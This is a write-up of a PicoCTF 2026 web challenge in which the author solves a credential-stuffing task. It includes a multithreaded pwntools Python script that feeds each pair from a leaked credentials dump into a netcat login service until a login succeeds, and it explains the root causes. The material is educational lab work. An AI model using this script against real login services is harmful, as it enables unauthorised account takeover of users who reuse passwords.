

# Credential Stuffing-PicoCTF-2026

---

### Web exploitation - Medium - 100 pts

---

#### Challenge description:

#### Credential stuffing is the automated injection of stolen username and password pairs (“credentials”) in to website login forms, in order to fraudulently gain access to user accounts.

#### Since many users will re-use the same password and username/email, when those credentials are exposed (by a database breach or phishing attack, for example) submitting those sets of stolen credentials into dozens or hundreds of other sites can allow an attacker to compromise those accounts too. Download the credentials dump [`On PicoCTF challenge description`].

#### There was a recent data breach at a famous department store, in which the login credentials of thousands of users were stolen and dumped online. You're hoping at least one person reused their credentials from the department store for an account at a local bank. Stuff those credentials and get the flag!

#### Connect to the service with `nc crystal-peak.picoctf.net [PORT]`

---

- First of all, it asks me to connect to a service, so let’s see how does it look like.
- Just a prompt that asks me to type in the username and then the password.



- Since I also have the credentials dump file (`1500 lines`), I open it to check the format first, each pair is separated by a `semicolon` (`;`)


- Then the idea is to brute-force because who else would even sit here and enter one by one in this case.
- To be honest, I don’t even know how to deal with TCP, I did some research to learn that Python have a library named `pwntools` that can handle socket effectively so I don’t have to write a socket script myself (I don’t know how either).
- After that, AI come in to save me, here is what I told it to do (just the core context, still need to adjust based on the result):
    - I need a Python script to `netcat` to [host][port] (from here I know about `pwntools`)
    - Read the credentials file with the format `[username];[password]` .
    - Wait for it to prompt and enter the credentials each time connecting.
    - Ignore all responses containing `Invalid` .
    - Use multi-threading for faster result.
- Then I have this script (Still not perfect but at least it gives the right result multiple time)
- (Note: increasing thread count beyond 5 caused unreliable results (false positives/negatives), likely due to the server struggling with concurrent connections or responses being read before fully received. 5 threads was the sweet spot for this target.)

```python
from pwn import *
from concurrent.futures import ThreadPoolExecutor
import threading

HOST = 'crystal-peak.picoctf.net'
PORT = [PORT]
THREADS = 5 # More thread might not give you correct result
found = threading.Event()  # Stop flag when found the correct one

def try_login(line):
    if found.is_set():
        return None
    if not line.strip() or ';' not in line:
        return None

    username, password = line.strip().split(';')
    try:
        r = remote(HOST, PORT, timeout=5)
        r.recvuntil(b'Username:')
        r.sendline(username.encode())
        r.recvuntil(b'Password:')
        r.sendline(password.encode())
        response = r.recvall(timeout=1).decode(errors='ignore')
        r.close()

        if 'invalid' not in response.lower():
            found.set()
            return (username, password, response)
    except Exception:
        pass
    return None

with open('creds-dump.txt') as f:
    lines = f.readlines()

with ThreadPoolExecutor(max_workers=THREADS) as executor:
    for result in executor.map(try_login, lines):
        if result:
            username, password, response = result
            print("="*40)
            print(f"[+] LOGIN SUCCESSFUL!!! {username} | {password}")
            print(response)
            print("="*40)
            break

```

- The last thing is to run the script and wait for the flag to show up (about 1-2m)


- Root cause:
    - Password reuse across services → because many users reuse the same
    credentials across multiple sites, a breach at one company (the
    department store) can compromise unrelated accounts elsewhere (the
    bank), even if the bank itself was never breached.
    - No rate limiting / lockout on login attempts → the service allowed
    thousands of rapid login attempts without any delay or
    account lockout, making automated credential stuffing fully viable.
